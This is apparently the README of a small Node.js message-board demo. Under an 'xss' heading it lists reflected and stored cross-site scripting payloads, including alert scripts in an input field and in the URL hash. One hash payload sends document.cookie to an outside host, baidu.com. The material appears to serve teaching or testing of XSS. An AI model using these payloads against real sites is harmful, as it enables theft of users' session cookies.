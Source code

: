 # mesage_board
node app.js
http://localhost:3000/
xss
1:input输入<script type="text/javascript">alert('xss')</script>
2:链接hash  http://localhost:3000/#<script>alert(1)</script>
 
http://localhost:3000/#<script>location.href="http://www.baidu.com/?"+document.cookie</script>